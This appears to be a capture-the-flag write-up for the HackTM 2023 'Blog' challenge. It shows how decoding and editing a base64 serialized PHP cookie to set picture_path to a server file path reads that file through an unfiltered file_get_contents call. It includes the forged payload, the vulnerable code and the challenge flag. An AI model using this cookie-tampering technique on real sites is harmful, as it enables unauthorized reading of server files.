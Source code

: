 # Blog
> We made a new blogging website for everyone to use! It's pretty basic for now,

> and it has a few limitations like:

> 1. No comments
> 2. Semi-working authentication system
> 3. Lots of random checks slowing down the entire website honestly (i don't know what's going on so i'm not touching it)

> To mitigate that, we made it such that only you can view your own posts. No one
can hack us now >:)

> (im not sure what kind of blog that is tho...)

## About the Challenge
We are given a website and a source code (You can find the source code [here](/2023/HackTM%202023/Blog/dist.zip))

![preview](images/preview.png)

## How to Solve?
First we need to register and login to the website, and you will find dashboard page

![dashboard](images/dashboard.png)

After that, check the cookie. You will find a cookie named `user` and the cookies will be like this
```
Tzo0OiJVc2VyIjoyOntzOjc6InByb2ZpbGUiO086NzoiUHJvZmlsZSI6Mjp7czo4OiJ1c2VybmFtZSI7czo1OiJhYWFhYSI7czoxMjoicGljdHVyZV9wYXRoIjtzOjI3OiJpbWFnZXMvcmVhbF9wcm9ncmFtbWVycy5wbmciO31zOjU6InBvc3RzIjthOjA6e319
```

If we decode the cookie using `base64`. We will get this value
```
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:5:"aaaaa";s:12:"picture_path";s:27:"images/real_programmers.png";}s:5:"posts";a:0:{}}
```

Luckily there is a flag path in the `Dockerfile` file. Change the picture_path from `images/real_programmers.png` to `/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt`.

```
O:4:"User":2:{s:7:"profile";O:7:"Profile":2:{s:8:"username";s:5:"aaaaa";s:12:"picture_path";s:46:"/02d92f5f-a58c-42b1-98c7-746bbda7abe9/flag.txt";}s:5:"posts";a:0:{}}
```

And then encode using `base64` and resend the request. You will retrieve the flag by checking `img` tag. That happen because of the code using `file_get_contents` function without any filter so we can read any files on the server

```php
        if (gettype($this->picture_path) !== "string") {        
            return "<script>window.location = '/login.php'</script>";
        }

        $picture = base64_encode(file_get_contents($this->picture_path));

        // check if user exists
        $conn = new Conn;
        $conn->queries = array(new Query(
            "select id from users where username = :username",
            array(":username" => $this->username)
        ));
```

![flag](images/flag.png)

```
HackTM{r3t__toString_1s_s0_fun_13c573f6}
```